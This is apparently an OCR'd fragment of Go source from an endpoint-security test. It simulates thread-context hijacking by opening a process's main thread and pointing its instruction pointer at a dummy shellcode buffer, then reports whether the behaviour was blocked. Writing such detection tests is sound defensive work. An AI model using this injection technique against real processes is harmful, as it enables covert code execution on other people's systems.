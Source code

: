 ```go

	// main thread of target proc
	threadHandle, err := getMainThreadHandle(cmd.Process.Pid)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to get main thread handle: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// manipulating thread context
	var context windows.Context
	context.ContextFlags = windows.CONTEXT_FULL
	err = windows.GetThreadContext(threadHandle, &context)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to get thread context: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// change thread context: change instruction pointer to shellcode address
	context.Rip = uintptr(unsafe.Pointer(&dummyShellcode[0]))
	err = windows.SetThreadContext(threadHandle, &context)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to set thread context: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	Endpoint.Say("[+] Remote thread context manipulation executed successfully")
	Endpoint.Stop(101) // UNPROTECTED: Malicious behavior not blocked
}

func getMainThreadHandle(pid int) (windows.Handle, error) {
	var snapshot windows.Handle
	var entry windows.ThreadEntry32
	// take snapshot of specified processes
	// 
	snapshot, err := windows.CreateToolhelp32Snapshot(windows.TH32CS_SNAPTHREAD, 0)
	if err != nil {
		return 0, err
	}
	defer windows.CloseHandle(snapshot)

	entry.Size = uint32(unsafe.Sizeof(entry))
	// retrieve info about first thread of process from snapshot
	err = windows.Thread32First(snapshot, &entry)
	if err != nil {
		return 0, err
	}

	for {
		if entry.OwnerProcessID == uint32(pid) {
			threadHandle, err := windows.OpenThread(windows.THREAD_ALL_ACCESS, false, entry.ThreadID)
			if err != nil {
				return 0, err
			}
			return threadHandle, nil
		}
		err = windows.Thread32Next(snapshot, &entry)
		if err != nil {
			break
		}
	}
	return 0, fmt.Errorf("no main thread found for process %d", pid)
}
```